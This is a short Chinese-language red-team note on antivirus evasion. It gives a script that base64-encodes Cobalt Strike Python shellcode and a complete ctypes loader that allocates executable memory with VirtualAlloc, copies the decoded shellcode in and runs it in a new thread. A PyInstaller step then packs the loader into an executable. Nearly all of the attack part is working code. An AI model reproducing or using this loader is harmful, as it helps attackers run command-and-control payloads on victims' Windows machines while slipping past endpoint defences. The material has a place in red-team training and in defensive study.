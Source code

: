 # 免杀实验

---

# 加载器

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/免杀实验/2.png)

**加载器 + base64**

cs 生成 Python shellcode x64

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/免杀实验/1.png)

base64 加密 shellcode
```py
# coding=utf-8
import base64

shellcode = open('payload.py')
shellcode = shellcode.read()
s1=shellcode.find("\"")+1
s2=shellcode.rfind("\"")
shellcode= shellcode[s1:s2]

base64_shellcode = base64.b64encode(shellcode.encode('UTF-8'))
with open('base64.txt', 'wb') as shell:
    shell.write(base64_shellcode)
print(base64_shellcode)

```

添加到加载器
```py
import base64
import codecs
import ctypes

shellcode = ""
shellcode = base64.b64decode(shellcode)
shellcode = codecs.escape_decode(shellcode)[0]
shellcode = bytearray(shellcode)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr),
    buf,
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode放置位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_uint64(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0))
)
# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

pyinstaller 打包
```bash
pip install PyInstaller
pyinstaller -F base64loader.py
```

---

**Source & Reference**
- [免杀 - shellcode简单混淆BypassAv](https://mp.weixin.qq.com/s/LkOmSNw7YgD7yfXkIrofHQ)
